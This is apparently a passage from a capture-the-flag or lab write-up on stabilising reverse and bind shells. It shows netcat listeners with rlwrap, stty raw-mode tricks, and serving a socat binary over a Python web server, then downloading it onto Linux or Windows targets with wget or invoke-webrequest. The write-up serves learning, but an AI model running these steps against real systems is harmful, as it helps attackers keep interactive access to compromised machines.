 Set the terminal row and column size as noted previously using below commands. This helps using editor commands without disrupting the output and shell scroll.
{% capture code %}{% raw %}stty rows <no>
stty cols <no>{% endraw %}{% endcapture %} {% include code.html code=code %}

Once the reverse/bind shell dies, input in own terminal will not be visible, as `echo` is turned off. Use `reset` to bring the settings to default.


### Method 2 - rlwrap

This method brings more stability to windows shells.

Install the package using `apt install rlwrap`.

Get the current terminal settings for row and column size using `stty -a`.

Use `rlwrap` along with `netcat` to create a slightly stabilised shell.
{% capture code %}{% raw %}rlwrap nc -lvnp <port>{% endraw %}{% endcapture %} {% include code.html code=code %}

Background the shell using `ctrl + z`. Set `echo` off in own terminal to pass the echo commands to the reverse/bind shell. This also provides access to tab autocomplete, arrow keys, and Ctrl + C to kill processes. Once done, foreground the process to bring the shell back.
{% capture code %}{% raw %}stty raw -echo; fg{% endraw %}{% endcapture %} {% include code.html code=code %}

Set the terminal row and column size as noted previously using below commands. This helps using editor commands without disrupting the output and shell scroll.
{% capture code %}{% raw %}stty rows <no>
stty cols <no>{% endraw %}{% endcapture %} {% include code.html code=code %}

Once the reverse/bind shell dies, input in own terminal will not be visible, as `echo` is turned off. Use `reset` to bring the settings to default.


### Method 3 - socat

This method is limited to linux targets.

Navigate to directory containing socat binary. Use `python` to create temporary web service to distribute the `socat` binary.
{% capture code %}{% raw %}python3 -m http.server 80{% endraw %}{% endcapture %} {% include code.html code=code %}

In the target machine, download the `socat` binary.

For linux targets, use command like below.
{% capture code %}{% raw %}wget <local-ip>/socat -O /tmp/socat{% endraw %}{% endcapture %} {% include code.html code=code %}

For windows targets, use command like below.
{% capture code %}{% raw %}invoke-webrequest -uri <local-ip>/socat.exe -outfile c:\\windows\temp\socat.exe{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 6 - Socat
